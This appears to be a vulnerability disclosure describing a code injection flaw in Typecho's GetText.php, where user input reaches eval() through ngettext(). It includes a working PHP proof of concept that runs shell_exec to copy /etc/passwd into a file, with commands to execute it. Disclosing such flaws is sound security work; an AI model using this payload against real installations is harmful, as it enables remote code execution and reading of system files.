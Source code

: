 # Overview

The select_string() function in GetText.php (typecho/var/Typecho/I18n/GetText.php) is vulnerable to Code Injection. The select_string() function is a private function although it can be accessed via calling the public function `ngettext()` which calls the vulnerable function on line 357. By giving a maliciously crafted payload through the "$number" argument in the ngettext() function, it gets executed via eval() which can be used to execute system commands leading to an RCE (`shell_exec("touch poc.txt");`).

## Description

The function select_string() accepts an argument "n" which is then passed to the PHP's eval() function. The eval() function evaluates a string as PHP code, thus we can craft a malicious PHP code to pass as the argument "n" to the select_string() function which can lead to a Code Injection Vulnerability.

## Proof of Concept (Credit: [mufeedvh](https://app.huntr.dev/users/mufeedvh))

```
<?php

    // Typecho Code Injection PoC (@mufeedvh)

    include 'GetText.php';

    $typeEchoClass = new Typecho_I18n_GetText("poc.php");
    $noice = 69;
    $refer = &$noice;
    $typeEchoClass->ngettext("single", "plural", "shell_exec('cat /etc/passwd > poc.txt')", $refer);

?>
```

Place this file inside the "typecho/var/Typecho/I18n/" path (where the GetText.php file is) and execute it:

    $ php poc.php
    $ cat poc.txt

Now you will be able to see the contents of "/etc/passwd" inside the file created by the exploit.
